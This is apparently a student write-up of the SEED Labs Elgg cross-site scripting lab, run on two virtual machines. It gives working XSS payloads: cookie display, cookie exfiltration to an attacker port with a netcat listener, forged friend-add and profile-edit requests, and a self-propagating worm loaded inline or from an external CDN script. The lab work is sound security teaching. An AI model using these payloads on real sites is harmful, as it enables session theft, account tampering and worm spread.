






Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `etc/host` on the attacker:

```
10.0.2.4       www.xsslabelgg.com
```

Read the file `/etc/apache2/sites-available/000-default.conf`:

```conf
<VirtualHost *:80>
        ServerName http://www.xsslabelgg.com
        DocumentRoot /var/www/XSS/Elgg
</VirtualHost>
```

It shows that the sources of website `http://www.xsslabelgg.com` are hosted in `/var/www/XSS/Elgg`

# Task 1

For Firefox, `Web Developer` -> `Network` is also useful.

## Task 1.1

Log in with account `alice` and password `seedalice`, then edit `Brief description` module in `Profile` as:

```html
<script>
  alert("XSS");
</script>
```

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:



# Task 2

Edit the `Brief description` module and save:

```html
<script>
  alert(document.cookie);
</script>
```

When accessing the profile page, it will show the cookie of the log-in user.

When Boby opens the page, it will be



For Alice herself:



# Task 3

Edit the `Brief description` as:

```html
<script>
  document.write(
    ""
  );
</script>
```

It will send an HTTP GET request to the port 5555 on the attacker with `document.cookie` whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

```
nc -l 5555 -v
```

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM `10.0.2.4`, then it will appear on the attacker:



# Task 4

Try to log in as `alice` and add `samy` as a friend, during the process, `network` tool captures the request:

HTTP header:

```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
```

So construct the payload that forges the user's friend request as:

```html
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```

Log in with username `samy` and password `seedsamy`.

Add the code above in `Profile` -> `About me` by `edit html` mode.

Now on the VM `10.0.2.4`, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.

# Task 5

When editing a user's (Alice) own profile legally, the `network` tool captures such an HTTP POST request:

```
Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

Then edit Samy's profile and figure out his `guid` as 47



Now we want to modify the `about me` module in the profile of someone as `"modified by Samy"` if he/she visits Samy's profile page. Save the code below as Samy's profile:

```html
<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```

Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:



# Task 6

To make the code in [Task 5](#task-5) self-propogating:

## DOM Approach

Do some subtle modification based on the code in [Task 5](#task-5):

```html
<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```

Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.

## Link Approach

Write the JavaScript file [`xssworm.js`](./xssworm.js) and store it in the external link https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab/Cross-Site-Scripting-Attack/xssworm.js

Add it into Samy's profile:

```html
<script
  type="text/javascript"
  src="https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab/Cross-Site-Scripting-Attack/xssworm.js"
></script>
```
